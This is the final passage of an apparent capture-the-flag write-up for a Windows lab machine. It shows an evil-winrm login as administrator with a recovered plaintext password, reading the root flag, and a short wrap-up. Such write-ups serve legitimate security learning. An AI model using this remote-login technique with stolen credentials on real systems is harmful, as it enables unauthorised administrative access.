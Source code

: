 I was able to connect as `administrator` using the retreived password and get the root 
lag (which was located for an obscure reason on `TRX` desktop).

    :::text
    └─$ evil-winrm -u administrator -p '3S5cxvMIgY{D9a2eP%l4}QOs' -i 10.129.227.105 -S ./ #thuglegacy
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    timelapse\administrator
    *Evil-WinRM* PS C:\Users\Administrator> type ..\TRX\Desktop\root.txt
    0af718d3f4fe2658a8e38e07fa8a0a4e

# Wrapping up

An interesting and easy box, cracking the zip password and just after the PFX file seems a bit redundant.
Having the commands to run a process as another user in the PowerShell history file is nice
as it might avoid some headaches.

